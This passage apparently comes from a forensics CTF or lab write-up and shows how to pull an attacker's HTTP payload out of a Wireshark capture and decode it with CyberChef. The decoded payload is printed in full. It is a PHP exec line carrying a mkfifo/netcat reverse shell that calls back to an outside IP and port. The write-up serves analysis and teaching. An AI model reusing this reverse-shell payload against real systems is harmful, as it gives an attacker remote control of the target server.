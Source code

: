 Anyway, the next question is

- What payload did the attacker use to gain access?

The answer format seems long with slash (`/`) separators. At the end of Hypertext Transfer Protocol dissector in Wireshark, there's a header:

![File Data](004_wireshark.png "Finding where the payload might be stored")

```
File Data: 454 bytes
```

With right click on it select __Copy__ > __... as Hex Stream__ and navigate to [CyberChef](https://gchq.github.io/CyberChef). Select _From Hex_ and paste the copied Hex Stream in the input. The decoded payload is:

__`
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
`__
